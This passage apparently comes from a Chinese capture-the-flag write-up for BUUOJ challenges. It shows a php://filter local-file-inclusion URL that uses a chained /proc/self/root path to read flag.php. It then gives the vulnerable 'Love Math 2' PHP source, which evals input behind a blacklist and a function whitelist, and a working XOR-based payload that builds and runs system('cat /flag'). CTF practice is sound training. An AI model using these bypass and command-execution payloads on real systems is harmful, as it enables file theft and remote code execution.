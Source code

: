 ```
http://b3578859-e62f-425c-9bb9-0e203951e865.node4.buuoj.cn:81/?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

## [NESTCTF 2019]Love Math 2

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 60) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin' , 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

懒得写了, 这种题没啥意思...

```
http://7bd20883-8035-4fe3-9e2f-9acbb9f5e063.node4.buuoj.cn:81/?c=$pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1})&0=system&1=cat /flag
```

## [GWCTF 2019]你的名字
